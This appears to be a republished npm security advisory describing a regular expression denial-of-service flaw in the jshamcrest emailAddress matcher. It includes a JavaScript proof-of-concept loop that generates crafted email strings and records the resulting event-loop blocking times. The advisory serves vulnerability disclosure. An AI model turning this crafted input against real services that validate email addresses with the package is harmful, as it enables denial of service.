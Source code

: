 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/jshamcrest
Review-Date: '2016-01-05'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Do not pass untrusted user input into jshamcrest. Consider user a validator like joi that does not rely on regular expressions.
### Details
jshamcrest is vulnerable to regular expression denial of service (ReDoS) when certain types of user input is passed in to the emailAddress validator.  "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time." [1]    ### Proof of concept  ``` var js = require('jshamcrest') var emailAddress = new js.JsHamcrest.Matchers.emailAddress();   var genstr = function (len, chr) {     var result = "";     for (i=0; i<=len; i++) {         result = result + chr;     }      return result; }   for (i=1;i<=10000000;i=i+1) {     console.log("COUNT: " + i);     var str = '66666666666666666666666666666@ffffffffffffffffffffffffffffffff.' + genstr(i, 'a') + '{'     console.log("LENGTH: " + str.length);     var start = process.hrtime();     emailAddress.matches(str)      var end = process.hrtime(start);     console.log(end); } ```  ### Results It takes about 116 characters to get a 1.6 second event loop block. ``` [ 1, 633084590 ] COUNT: 51 LENGTH: 116 ```  # Timeline - October 25, 2015 - Vulnerability Identified - October 25, 2015 - Maintainers notified (no response)
<br><br>• Affected Versions: <=99.999.99999
<br>• Patched Versions: <0.0.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
